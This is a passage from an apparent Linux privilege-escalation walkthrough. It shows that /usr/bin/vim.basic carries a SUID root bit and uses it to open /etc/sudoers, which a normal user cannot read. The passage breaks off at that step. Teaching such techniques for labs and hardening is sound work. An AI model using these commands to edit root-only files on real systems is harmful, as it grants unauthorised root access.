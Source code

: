 <br>

---

<br>

### #4 - vim.basic SUID

Looking at the permission for **/usr/bin/vim.basic** shows us it has a SUID bit set:

`ls -al /usr/bin/vim.basic`

```
-rwsr-xr-x 1 root root 2441416 Oct 14  2020 /usr/bin/vim.basic
```

With this we can edit files only accessable by root as a standard user. For example if we try and display the **/etc/sudoers** file:

`cat /etc/sudoers`

```
cat: /etc/sudoers: Permission denied
```

But if we edit it with vim.basic:

`vim.basic /etc/sudoers`
